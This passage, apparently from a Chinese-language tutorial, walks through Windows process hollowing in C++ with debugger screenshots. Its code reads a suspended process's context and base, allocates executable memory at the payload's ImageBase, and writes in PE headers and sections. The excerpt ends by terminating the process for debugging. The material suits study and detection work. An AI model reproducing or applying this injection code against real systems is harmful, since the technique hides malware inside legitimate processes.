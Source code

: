       // 获取nt头  
      PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)(image + dos->e_lfanew);  
      
      // 获取线程上下文  
      CONTEXT ctx;  
      ctx.ContextFlags = CONTEXT_FULL;  
      GetThreadContext(pi.hThread, &ctx);  
      
      // 获取模块基质  
      ULONG_PTR base;  
      ReadProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + (sizeof(SIZE_T) * 2)), &base, sizeof(ULONG_PTR), NULL);  
      
      // 在默认基质下申请内存并且 设置属性为读写执行  
      LPVOID mem = VirtualAllocEx(pi.hProcess, (PVOID)(nt->OptionalHeader.ImageBase), nt->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);  
      if (!mem)  
      {  
        TerminateProcess(pi.hProcess, 1);  
        return 1;  
      }  
      
      // 替换PE头  
      WriteProcessMemory(pi.hProcess, mem, image, nt->OptionalHeader.SizeOfHeaders, NULL);  
      
      for (int i = 0; i < nt->FileHeader.NumberOfSections; i++)  
      {  
        // 获取节表 写入节表  
        PIMAGE_SECTION_HEADER sec = (PIMAGE_SECTION_HEADER)((LPBYTE)image + dos->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));  
        WriteProcessMemory(pi.hProcess, (PVOID)((LPBYTE)mem + sec->VirtualAddress), (PVOID)((LPBYTE)image + sec->PointerToRawData), sec->SizeOfRawData, NULL);  
      }  
        
      // 结束进程(调试的时候方便一下 可以不写)  
      TerminateProcess(pi.hProcess, -1);  
      std::cout << "process exit!!!!!!!" << std::endl;  
      std::cin.get();  
      return 0;  
    }

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221112175430.png)

    GetThreadContext是什么意思呢?获取线程上下文，我们这时候用调试器附加一下dllhost看下我们获取的是什么东西。主要获取的就是目前的寄存器的值。后续我们需要读写这个值,从而达到执行我们自己的PE信息。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221112175432.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221112175435.png)

    开始替换PE头  我们可以注意一下写入了什么。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221112175437.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221112175440.png)

